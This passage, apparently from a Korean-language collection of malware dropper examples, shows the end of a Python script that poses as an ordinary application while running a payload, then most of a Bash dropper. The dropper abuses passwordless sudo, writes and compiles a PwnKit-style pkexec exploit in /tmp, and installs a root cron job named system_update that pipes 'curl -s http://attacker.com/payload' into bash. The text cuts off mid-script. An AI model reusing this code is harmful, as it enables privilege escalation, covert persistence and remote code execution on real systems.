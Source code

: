 ```python

if __name__ == "__main__":
    # 일반 애플리케이션으로 위장
    print("Loading application modules...")
    execute_payload()
```

#### 5. Bash 셸 스크립트 드로퍼

```bash
#!/bin/bash

# 권한 상승 및 지속성 확보 드로퍼 예시
function check_privileges() {
    if [ "$EUID" -ne 0 ]; then
        echo "[*] Attempting privilege escalation..."
        return 1
    fi
    return 0
}

function escalate_privileges() {
    # SUDO 패스워드 없이 실행 가능한 바이너리 확인
    sudo_bins=$(sudo -l | grep "(ALL) NOPASSWD" | awk '{print $NF}')
    if [[ ! -z "$sudo_bins" ]]; then
        sudo $0
        exit 0
    fi
    
    # 알려진 취약점을 통한 권한 상승 시도
    if [[ -f /usr/bin/pkexec ]]; then
        # CVE-2021-4034 (PwnKit)
        echo "[+] Attempting pkexec method..."
        exploit_code=$(cat << 'EOL'
        #include <stdio.h>
        #include <stdlib.h>
        #include <unistd.h>
        
        int main() {
            char *argv[] = {"pkexec", "../../../../../../tmp/exploit", NULL};
            char *envp[] = {"PATH=/tmp", "SHELL=/tmp/exploit", NULL};
            
            execve("/usr/bin/pkexec", argv, envp);
            return 0;
        }
EOL
        )
        
        echo "$exploit_code" > /tmp/exploit.c
        gcc -o /tmp/exploit /tmp/exploit.c
        chmod +x /tmp/exploit
        /tmp/exploit
    fi
}

function drop_payload() {
    # 시스템 내 지속성 확보
    if check_privileges; then
        # 루트 권한일 경우 crontab 등록
        echo "* * * * * root curl -s http://attacker.com/payload | bash" > /etc/cron.d/system_update
        chmod 644 /etc/cron.d/system_update
    else
        # 사용자 권한일 경우 startup 스크립트에 등록
```